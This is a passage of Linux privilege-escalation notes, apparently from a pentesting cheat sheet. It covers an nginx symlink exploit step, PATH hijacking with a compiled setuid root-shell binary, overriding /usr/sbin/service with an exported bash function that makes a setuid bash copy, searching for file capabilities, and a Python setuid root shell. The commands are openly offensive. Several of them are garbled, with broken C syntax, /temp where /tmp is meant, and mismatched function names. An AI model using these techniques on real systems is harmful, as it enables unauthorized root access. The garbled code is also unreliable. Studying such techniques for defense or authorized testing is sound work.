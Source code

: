 2. By run the vulnerability exploit file in the exploitdb the symbolic
link is created and starting or restarting the nginx result as to the
root but suid is still same as www-data

```
The command to restart :invoke-rc.d nginx rotate >/dev/null 2>&1
```

III.Vulnerability in the environmental variable:
Environment variable: The variable that are available system wide and are
inherited by all the spot child process and shells.
the comment to look environment variable: env

Steps:

1. Search for the suid bit set for the environmental variables(-env).
2. Inject the malicious code for the environmental variable, if it run a
service then inject malicious services.
example file:/tmp/service.c
```
int main(){ setuid(0);setgid(0); system(/bin/bash),return 0;}
```

compile: gcc /temp/service.c -o /temp/service
then , export PATH=/temp:$PATH
then, <location of env>

or function:
command:
```
function /usr/sbin/services() {cp /bin/bash /tmp &&  chmod +s /tmp/bash
&& /temp/bash -p;}
```

```
export -f /usr/sbin/service
```

```
/usr/local/bin/suid-env2
```

## ESCALATION USING CAPABILITIES

I.Instead of giving a program full root privileges via setuid, Linux
capabilities allow assigning specific privileges. These are managed via
setcap and checked using getcap.

The getcap command in Linux is used to display file capabilities assigned
to a binary or file.
example:
```
getcap -r / 2>/dev/null
```

python code for making as root:

```
import os;
os.setuid(0);
os.system("/bin/bash");
```
